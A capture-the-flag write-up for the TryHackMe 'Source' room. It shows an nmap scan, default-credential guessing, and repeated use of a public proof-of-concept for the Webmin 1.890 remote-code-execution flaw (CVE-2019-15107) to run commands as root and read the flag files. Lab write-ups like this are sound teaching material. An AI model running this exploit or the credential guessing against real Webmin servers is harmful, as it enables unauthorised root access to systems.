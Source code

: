 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: false
math: false
mermaid: false
image:
  path: /assets/img/2025-06-21-TryHackMe-Source/Source.webp
---
```


Howdy, fellow hackers! Welcome to my write-up for the [Source](https://tryhackme.com/room/source) room on TryHackMe. In this post, I'll walk you through the steps I took to pwn this box and grab those sweet, sweet flags. Let's get started!

# Enumeration

## Nmap Scan

First things first, let's make our lives a little easier. I'm exporting the target IP to an environment variable so I don't have to type it a million times.

```bash
export IP=10.10.178.7
```

With our variable set, it's time to unleash `nmap`:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

Our scan reveals an open door on port `10000`, where Webmin is hosting a party. Let's see if we can crash it with a quick `curl`.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

Whoops, it seems the server is a bit shy and insists on using HTTPS. Fair enough! Let's try that instead.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

Ah, the classic self-signed certificate! `curl` is being a stickler for security and refuses to connect. No worries, it's time to fire up the good old web browser, which is a lot more forgiving about these things. I pointed my browser to `https://$IP:10000` and was greeted by the Webmin login page.

![Desktop View](/assets/img/2025-06-21-TryHackMe-Source/photo1.webp){: width="665" height="645" }

## Trying to Log In (or Not)

Time for the 'ole college try' with the most creative credentials known to humankind:

- `admin:admin`
- `admin:password`

Shocker, those didn't work. On to Plan B: asking the all-knowing Google for the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

Interesting! But before trying to brute-force the root password, let's check the version we're dealing with. Our Nmap scan already gave us a huge clue:

```text
|_http-server-header: MiniServ/1.890
```

A quick Google search for `Webmin 1.890 exploit` hits the jackpot! Not only is there a nasty remote code execution vulnerability (CVE-2019-15107), but some kind soul has already written a proof-of-concept script. You love to see it! Here's the [GitHub repo for the exploit](https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py).

Let's run the script with the `id` command to check our privileges.

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And just like that... `uid=0(root)`. We're in! We have achieved total control without even needing a password. The power!

## Gaining Flags

Now for the fun part: collecting our trophies!

### User Flag

Let's start by listing the contents of the `/home` directory to find our user.

```bash
❯ python script.py -host $IP -port 10000 -cmd "ls /home"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark
```

Okay, the user is `dark`. Let's see what's in their home directory.

```bash
❯ python script.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb
```

There it is, `user.txt`. Let's read it!

```bash
❯ python script.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

### Root Flag

This one should be even easier since we're already root.

```bash
❯ python script.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

And that's a wrap! Two flags, one simple exploit. Thank you for reading my write-up, and happy hacking
